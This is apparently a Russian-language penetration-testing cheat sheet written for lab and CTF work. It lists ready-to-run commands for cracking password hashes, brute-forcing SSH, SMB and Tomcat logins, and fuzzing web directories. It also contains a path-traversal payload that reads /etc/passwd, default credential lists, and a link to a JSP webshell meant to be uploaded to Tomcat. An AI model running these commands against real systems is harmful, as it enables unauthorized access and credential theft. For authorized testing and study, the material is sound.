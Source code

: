 # Определение типа хеша

https://www.tunnelsup.com/hash-analyzer/

# Определение модуля для хеша в хаш кат

https://hashcat.net/wiki/doku.php?id=example_hashes

# Перебор паролей для сервисов SSH, smb и т.д.

patator ssh_login host=10.8.0.14 user=john password=FILE0 0=/usr/share/wordlists/rockyou.txt -x ignore:mesg=’Authentication failed.’

medusa -h 192.168.50.38 -u michael -P rockyou.txt -M ssh -f -v 6

(почему то для домена) 

hydra -P wifite.txt -l administrator smb://192.168.50.200 -m "ROOT.DC"

hydra -L ~/wordlists/user.txt -P ~/wordlists/pass.txt 192.168.1.5 smb -V

(не для домена)

hydra -l micha -P /usr/share/wordlists/rockyou.txt ssh://192.168.50.200

!!!!Brute char!!!! -x min:max:Aa1%

hydra -x 7:8:1 -l administrator smb://192.168.50.200 -m "ROOT.DC" -V

hydra -C tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html/   (перебор ВЕБ паролей)



# Перебор хешей по словарю и брут

***Взлом приватного ключа ssh

ssh2john.py private.key > hash

john --wordlist=/usr/share/wordlists/rockyou.txt hash_crack

***
john --format=mscash2 --wordlist=/usr/share/wordlists/rockyou.txt filehash

john --format=mscash2 --mask='?a' --min-length=7 --max-length=10 filehash

john --format=mscash2 -1=?l?u?d --mask=Password12'?1' --min-length=11 --max-length=18 security_parse.txt

Показать форматы

john --list=formats

Показать крякнутые хеши

john --show ФАЙЛ-ХЕШЕЙ

Продолжить прерванную сессию

john --restore

john сохраняет логи в домашней директории ~/.john


лучше чиcтый хешь

может несколько хешей

справка по хакат про експлойт хешей

$DCC2$10240#max_1#f4bb2ed0b323b3fa5efcc8ad8314377b


hashcat -m 1000 hash.txt dict.txt

hashcat ujas.txt rockyou.txt - автодетектинг хеша (файл может быть с хламом)

Загляним в справку Hashcat, чтобы узнать номер режима хеша NTLM: 1000 | NTLM  

Брут хешей
hashcat --force --hwmon-temp-abort=100 -m 1000 -D 1,2 -a 3 -i --increment-min 5 --increment-max 12 -1 ?l?u?d FB6CEDE76A37702EAD2615DC27B626EF ?1?1?1?1?1?1?1?1?1?1?1?1?1



hashcat --force --hwmon-temp-abort=100 -m 1000 -D 1,2 -a 3 -i --increment-min 5 --increment-max 12 6A6E1BB24F869966A450203F373C8EA6 ?a?a?a?a?a?a?a?a
 -a  атака по словарю 0, брутфорс 3



 
  В Hashcat встроенными наборами символов являются:	


  
? | Набор символов
===+=========
 l | abcdefghijklmnopqrstuvwxyz
 u | ABCDEFGHIJKLMNOPQRSTUVWXYZ
 d | 0123456789
 h | 0123456789abcdef
 H | 0123456789ABCDEF
 s |  !"#$%&'()*+,-./:;<=>?@[\]^_`{|}~
 
 a | ?l?u?d?s
 b | 0x00 - 0xff


# Брут директрий и доменов

Основной словарик каталогов

https://github.com/mxdelta/SecLists/blob/master/Discovery/Web-Content/big.txt

утилиты

wpscan --url://192.168.50.200/wordpress/ --wp-content-dir -at -eu  (все директории и все плагины для вордпресс)

gobuster dir -u http://192.168.50.13 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -e -k -x txt,html,php,css,js,sh,py,cgi,db -t 50

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -u https://watch.streamio.htb/ -x php

gobuster dir -u 10.129.249.156 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 10 -x php,html,bak,txt

gobuster vhost --append-domain -w /usr/share/amass/wordlists/subdomains-top1mil-5000.txt -u http://thetoppers.htb 


ffuf -c -u http://192.168.50.13/FUZZ -w raft-medium-words.txt -recursion -fc 404,403

ffuf -u http://10.10.10.171/FUZZ -w /usr/share/wordlists/dirb/common.txt -mc
200,204,301,302,307,401 -o results.txt

# фазинг переменных

wfuzz -c -u 'http://redrocks.win/NetworkFileManagerPHP.php?FUZZ=test' -w /usr/share/wfuzz/wordlist/general/big.txt

ffuf -c -r -u 'http://192.168.50.205/secret/evil.php?FUZZ=../../../../etc/passwd' -w /usr/share/SecLists/Discovery/Web-Content/common.txt -fs 0



# Создание паролей
	crunch 6 8 1234567890 -о /гооt/wordlist.lst:

https://crackstation.net/crackstation-wordlist-password-cracking-dictionary.htm

admin:password
admin:admin
root:root
root:password
admin:admin1
admin:password1
root:password1

# Список кредов для TOM CAT (LABA JERRY)

https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt

https://raw.githubusercontent.com/tennc/webshell/master/jsp/jspbrowser/Browser.jsp (Броузер на JSP - для загрузки в том кота)




# Создание мутаций имен и фамилий

https://github.com/urbanadventurer/username-anarchy

./username-anarchy --input-file fullnames.txt --select-format
first,flast,first.last,firstl > unames.txt

Пример 
Firstname,Lastname
Fergus,Smith
Shaun,Coins
Sophie,Driver
Bowie,Taylor
Hugo,Bear
Steven,Kerb




# Брут пользователей с помощь crackmapexec

crackmapexec smb streamio.htb -u users.txt -p passwords.txt

		---- Брут пользователей по RID (относительный идентификатор)

crackmapexec smb 10.10.10.149 -u Hazard -p stealth1agent --rid-brute
